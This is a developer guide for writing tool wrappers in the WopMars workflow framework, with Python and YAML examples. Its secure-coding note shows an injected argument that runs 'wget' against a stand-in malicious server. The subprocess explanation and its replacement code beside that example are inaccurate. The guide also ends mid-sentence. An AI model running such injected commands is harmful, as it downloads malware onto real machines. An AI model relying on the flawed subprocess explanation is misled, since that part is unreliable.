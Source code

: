 The tool wrappers
=======================

This manual aims to explain with simple words how to write the `tool wrappers` in order to allow a fresh Python developer to configure his own analysis workflow. This manual refers to the :doc:`User Manual </use>` so I recommand you to keep it open in case of blackout.

This starting guide will allow you to understand the main mecanisms which rule **WopMars**. It means the way WopMars talks with the `tool wrappers` you are using to understand their role in the workflow in terms of input and output parameters.

To illustrate the necessary conditions to build a correct `Toolwrapper`, we will use some kind of *TO DO* task list to prevent forgetting steps. The order doesn't matter but, I insist, each step is essential.

Developing basic `tool wrappers`
...............................

Declaring your class
--------------------

To define a `Toolwrapper` we will use an important concept of the *Object Oriented Programming* (OOP) which is **abstract inheritance**.

.. note::

    An abstract class is a class which represent a concept and, consequently, which is not supposed to be instantiated. For example, the bird concept: a bird flies and sings: an abstract class ``Bird`` would have methods like ``fly`` and  ``sing`` with nothing inside. Actually, there are no species called "bird", however, there are ducks and eagles. A duck is a realization of the concept of "bird". In OOP, the class ``Duck`` would inherit from ``Bird`` and would overide the methods ``fly`` and ``sing`` to specialize them in order to fit with the duck characteristics. Here, ``Duck`` is a subclass of ``Bird``.
    
A `Toolwrapper` compatible with **WopMars** have to be a subclass of the abstract class, prepare yourself, ``Toolwrapper``! For WopMars, every `Toolwrapper` is a subclass of ``Toolwrapper`` and if you ask it to work with a class which do not satisfy this simple condition, you'll obtain an error. The reason for that is simple: if your `Toolwrapper` inherit from ``Toolwrapper``, then it is certain that it contains some methods and attributes familiar to WopMars. Otherwise, there are no guarantees.

An other important thing necessary to work with WopMars is to provide the static class attribute ``__mapper_args__`` to your `Toolwrapper`. This attribute is a dictionnary which should have ``polymorphic_identity`` as key and the full name of the class (contained in a String) as value. This information is necessary to WopMars because when it will store the `tool wrappers` informations into the database, WopMars will be able to keep track of the inheritance between your `Toolwrapper` and the ``Toolwrapper`` class.

.. note::
    A static class attribute is an attribute associated with a class and not with a specific object of this class. Modifying this kind of attribute in an object of a given class is somehow similar to modifying this attribute in every object of the class (those that already exist and those future).

Here is an example of the declaration of a class called ``SparePartsManufacturer``:

.. code-block:: python

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }
        pass

You have now created your first `Toolwrapper`, but the aims to use abstract class inheritance is to guarantee to **WopMars** that each ``Toolwrapper`` implements some methods which describe its role.

`Toolwrapper` specifying methods
++++++++++++++++++++++++++++++++

A good way to see a `Toolwrapper` is to see it as an independant software. Meaning that it has a well defined role which is to generate a specific output in terms of a specific kinf of input with some options to parametrize its behavior. Anyway, this is the way WopMars is "watching" to the `tool wrappers`. The link between a `Toolwrapper` and WopMars is done thanks to inherited methods from ``Toolwrapper`` which have to be re-wrote by the `Toolwrapper` developer.

Describing files: ``specify_input_file`` and ``specif_output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The files called *input files* and *output files* are, on the one hand, the necessary files for the tool to work and, on the other hand, the files generated by the tool. A `Toolwrapper` doesn't rely on a specific file on the machine: it shouldn't access a file in a hard-coded way but should use some kind of variable containing the path to the given file. It is for the `Toolwrapper` developer to specify those variable names and they have to be respected in the workflow definition file (see :doc:`User Manual </use>`). Those variable names are known by WopMars thanks to the methods ``specify_input_file`` (for the variable names associated with inputs) and ``specify_output_file`` (for the variable names associated with outputs). Those methods have to return each one a list containing the Strings containing the variable names accepted by the `Toolwrapper`.

.. warning::

    Every files asked by a `Toolwrapper` are required. It means that the processing of the `Toolwrapper` rely on every asked inputs and outputs. If a file is optional, you should specify it in the method ``specify_params`` (we will see it later)


The class ``SparePartsManufacturer`` takes a file in input but doesn't produce any output file. The input file path will be contained in the field named "pieces".

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

Describing tables: ``specify_input_table`` and ``specify_output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**WopMars** makes its `Toolwrapper` able to read and write entries in a database. Like for the files, the `tool wrappers` have to specify in which table of the database they will read (input tables) and in which they will write (output tables). So, the ``Toolwrapper`` class implements the methods ``specify_input_table`` and ``specify_output_table``. However, this time, the Strings contained in the returned list are associated with both the variables containing the table models and the name of the tables itself.

The final user have to write the same table names as keys in the `table` part of the definition file (see :doc:`User Manual </use>`) and the path to the models associated with those tables as the values to specify which one the `Toolwrapper` should use. Usually, a `Toolwrapper` is closely related to a specific model but we can imagine that if two models are similar for a given `Toolwrapper`, it could use one or the other independantly (for example, if a model B inherit from the model A, then every `Toolwrapper` able to use A should be able to use B too).

.. note::

    At the moment, the concept of model shouldn't be clear but don't worry, in the section concerning the models, you will get more explanations about those models. At the moment, simply note that the `Toolwrapper` communicate its input and output table names in the methods ``specify_input_table`` and ``specify_output_table``.

Here is the rest of the `Toolwrapper` ``SparePartsManufacturer`` which writes its results in the table ``piece``:

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

Describing paramaters: ``specify_params``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

An other feature offered by the `tool wrappers` is to allow you to specify some parameters for the processing of the wrapper. Usually, those parameters will be associated with the options allowed by the analysis tool itself. They may also correspond to options used by the `toolwrappers` to offer flexibility for the pre and post processing of the data.

To specify which options a `Toolwrapper` is able to understand, it implements a method ``specify_params``. This method returns a dictionnary in which each key correspond to the name of the option which will be used in the definition file (see :doc:`User Manual </use>`) and each value, a String representing its type. The availables types are the following (to memorize them, just think about the different Python data types):
- ``int``
- ``float``
- ``str``
- ``bool``

Furthermore, the key word ``required`` is available and allows to specify that one option has to be given by the user for the tool to run. To specify the type and use ``required`` at the same time, the character ``|`` will be used as a delimiter inside the String.

In the following class, the parameter ``max_price`` is an ``int`` and will be used to get only the entries with a price lower than it, if set.

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

        def specify_params(self):
            return {
                "max_price": int
            }

Declaring the method ``run``
++++++++++++++++++++++++++++

The ``run`` method contains the core of your `Toolwrapper`. The data processing and the call to the underlying analysis tool will be done here.

Calling files: ``self.input_file`` and ``self.output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The path to the files given by the final user are manipulated thanks to the methods ``self.input_file`` and ``self.output_file`` with the name of the variable containing the desired file as argument. For example, in our definition file, we have:

.. code-block:: yaml

    rule Rule1:
        tool: 'wopexample.wrappers.SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'

We can access the string `input/pieces.txt` with the following statement::

    self.input_file("pieces")

Calling models: ``self.input_table`` and ``self.output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The models given by the user can be accessed thanks to the methodes ``self.input_table`` and ``self.output_table`` with the table name as argument. This way, and unlike the files, you won't get the string representing the model but the model itself. For example:

.. code-block:: yaml

        output:
            table:
                piece: 'wopexample.models.Piece'

We can access the model ``Piece`` with the following statement::

    self.output_table("piece")

Session and accessing the database
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you are using **WopMars**, it is probably for the database access. Now, you know how to call the models from your method ``run`` but you probably doesn't know what to do with them. This section aims to explain how you should use your models and a session to access the database.

.. note:: 

    When you are working with databases, there is three level of hierarchy of the work you are performing on it: the session, the transaction and the operation:
    
    - The operation corresponds to each single task you are asking the database to do (``SELECT``, ``INSERT``, ``UPDATE``, ``DELETE``, etc..)
    - The transaction is a series of operations which are closely related (for example: ``SELECT``, compute then ``INSERT``). When a transaction finishes, the state of the database is checked, if every thing seems right and well ordered, the transaction is validated (``COMMIT``), if not, the whole transaction is canceled (``ROLLBACK``) in order to return to a stable state.
    - The session is a series of transactions which are independant. In other words, when you want to work with the database, you open a session and it says "I'm gonna work with you, database, are you ok?". Then, every operations you will perform will be associated with __your__ session before being ``COMMITED`` or ``ROLLBACKED``.

Developing Advanced `tool wrappers`
..................................

Now that you understand the basics of the development of the `tool wrappers` you may want to do more advanced tricks to deal with **WopMars**. 

Parametrize inputs and outputs
------------------------------

During the parsing of the configuration file, WopMars check first the validity of the parameters and then look at the inputs and outputs. This behavior allow you to parametrize which input and output your `Toolwrapper` is supposed to take depending on the used parameters. In this example, the parameter ``to_file`` is a ``boolean`` and if it is ``True``, the result is written in a file instead of the database.

.. code-block:: python

    class CarAssembler(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.CarAssembler"
        }

        def specify_output_file(self):
            if not self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            if self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_params(self):
            return {
                "to_file": "bool",
                "max_price": "int",
            }

And there, the definition file (``Wopfile2`` in the example directory) look like this:

.. code-block:: yaml

    # Rule1 use SparePartsManufacturer to insert pieces informations into the table piece
    rule Rule1:
        tool: 'wopexample.wrappers.SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'
        output:
            table:
                piece: 'wopexample.models.Piece'

    # CarAssembler make the combinations of all possible pieces to build cars and calculate the final price
    rule Rule2:
        tool: 'wopexample.wrappers.CarAssembler'
        input:
            table:
                piece: 'wopexample.models.Piece'
        output:
            # Here the output is written in a file
            file:
                piece_car: 'output/piece_car.txt'
        params:
            # The price have to be under 2000!
            max_price: 2000
            to_file: True

Inherit models
--------------

During the conception of your workflows, you may want to make multiple rules write in the same table in a specific order (for example, one rule create entries and the other add informations in the fields). Basically, you would do like ever, playing with inputs and outputs in order to fit your needs but this way, you will be stuck with a logic problem where WopMars won't be able to say "this rule should be run before this one", like in the following schema:

.. figure::  images/model_inheritance.png
   :align:   center
   
   *If you want the rules to be run in this specific order, WopMars can't understand if `rule 2` is supposed to run before `rule 4` on the basis of the table names*

You can bypass this issue using *model inheritance*. With the model inheritance, you can build a model which inherit from a former model and add it some new attributes.

Taking back our model example ``Piece``, we need an other model which add the field ``date`` to the table. We call this model ``DatedPiece``

.. code-block:: python

    from sqlalchemy.sql.sqltypes import Date
    from sqlalchemy import Column

    from wopexample.models.Piece import Piece


    class DatedPiece(Piece):
        date = Column(Date)
        
With this model, there is an other `Toolwrapper` provided in the example: ``AddDateTopiece`` which show use of the same table as input and output. You can note that here, the `output_table` only is used. Actually, we are interested here in only ``DatedPiece`` objects:

.. code-block:: python

    import time, datetime
    import random

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class AddDateToPiece(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.AddDateToPiece"
        }

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            return ["piece"]

        def run(self):
            session = self.session()
            DatedPiece = self.output_table("piece")

            for p in self.session().query(DatedPiece).all():
                date = datetime.datetime.fromtimestamp(time.time() - random.randint(1000000, 100000000))
                p.date = date
                session.add(p)
            session.commit()

Executing clean command line
----------------------------

In your learning of Python, you may have encountered the famous ``os.system("command-line")`` and you probably want to make use of it again. Sorry, you **shouldn't do** things this way. Especially if you are running long analysis software. Instead, I'll show you how to use the module `subprocess <https://docs.python.org/3/library/subprocess.html>`_ for simple things and, please, use it extensively in order to get more control on the command lines you are executing.

.. note::

    As far as I know, there is two main differences between ``os.system()`` and ``subprocess`` plus the fact that ``subprocess`` is actually a little more difficult to use than the former:
    
    - ``os.system()`` is very sensible to malicious code injection. Example:

        .. code-block:: python

            def list_extension(ext):
                os.system("ls -1 *." + str(ext))
            
        This function is supposed to list all the files of a given extension in the directory. But if, instead of passing ``txt`` as argument, I pass ``txt; wget http://malicious.server/malware`` then, the function will list the files with ``txt`` extension and download the malware from the malicious server!

        Now, with ``subprocess.Popen``, you can't do such a thing because spaces are not allowed inside arguments:

        .. code-block:: python

            def list_extension(ext):
                subprocess.Popen(["ls", "-1", "*." + str(ext)])
        
    - ``subprocess`` open a Pipe between the python process and the subprocess whereas ``os.system`` calls a subshell independant of the first. This difference makes the communication between the subprocess and your python code far more easy with ``subprocess`` instead of ``os.system`` in which it is nearly impossible










packager Toolwrapper avec models








































